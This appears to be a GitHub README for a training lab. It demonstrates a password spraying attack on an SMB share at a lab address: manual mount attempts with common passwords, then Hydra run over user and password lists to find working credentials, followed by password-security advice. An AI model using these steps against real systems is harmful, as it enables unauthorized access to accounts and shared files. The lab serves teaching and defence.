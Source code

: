 ##Perform a Password Spraying Attack
This project focuses on managing password security by demonstrating a password spraying attack and emphasizing best practices for securing network shares. The goal is to explore the vulnerabilities of weak or common passwords in a networked environment, and to highlight the importance of using strong, complex passwords to safeguard sensitive resources. Through the use of tools like Hydra and basic Linux commands, this project aims to provide a hands-on approach to understanding password-related security risks and reinforcing effective password management strategies.
---

## Step 1: Create a Mount Point  
To attach a network share, start by creating a mount point:  

```bash
mkdir /mnt/HR
```

A mount point is necessary for accessing a network share once valid credentials are discovered.  

---

## Step 2: Check for Available Users  
View the list of users from the MS10 system (IP: 10.1.16.2):  

```bash
cat users.txt
```

> **Note:** If `users.txt` is not accessible, close and reopen the terminal. Ensure the prompt is `root@kali` and type:  
> ```bash
> ls -a
> ```  
> The file should then appear in the directory.

---

## Step 3: Attempt Password Submissions  
### Discovered Passwords:  
```
abc123  
123456  
Pa$$w0rd  
```

### First Attempt:  
Try mounting the network share using the following command:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```

When prompted for a password, enter: `abc123`  

Result: **Mount error** – This password is incorrect.

### Second Attempt:  
Try the second password:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```

When prompted for a password, enter: `123456`  

Result: **Mount error** – This password is also incorrect.  

---

## Step 4: Automate with Hydra  
Manually testing each password is time-consuming, so let's automate the process. First, create a file containing the discovered passwords:  

```bash
echo abc123 > pass.txt  
echo 123456 >> pass.txt  
echo 'Pa$$w0rd' >> pass.txt  
cat pass.txt  
```

> **Important:** Ensure the passwords are spelled correctly, especially `Pa$$w0rd`. Use single quotes to avoid issues.  

### Understanding the Commands:  
- `>` creates a new file and writes to it.  
- `>>` appends to the file without overwriting its contents.  

---

## Step 5: Launch Hydra for Password Spraying  
Use the Hydra wizard to perform a password spraying attack:  

```bash
hydra-wizard
```

### Hydra Wizard Responses:  

| **Prompt**          | **Response**   |
|----------------------|----------------|
| Service              | smb            |
| Target               | 10.1.16.2      |
| Username             | users.txt      |
| Password             | pass.txt       |
| Test                 | (Press Enter)  |
| Port                 | (Press Enter)  |
| Module options       | (Press Enter)  |
| Run command          | Y              |

Hydra will now attempt each password for every user listed in `users.txt` against the MS10 share.  

---

## Step 6: Verify Credentials  
Once Hydra identifies valid credentials, mount the share to confirm:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=jaime
```

Enter the password: `Pa$$w0rd`  

If no error appears, the share has been successfully mounted.  

View the share’s contents:  

```bash
ls /mnt/HR
```

To unmount the share, use:  
```bash
umount /mnt/HR
```

---

## Conclusion: Best Practices for Password Security  
This project highlights the importance of good password management. To improve security:  

- Implement **password complexity** and **length requirements**.  
- Train users to avoid using simple passwords like `123456`.  
- Discourage writing down passwords. If necessary, securely destroy the paper afterward.  
- Use automated tools like Hydra responsibly to test and strengthen your security policies.
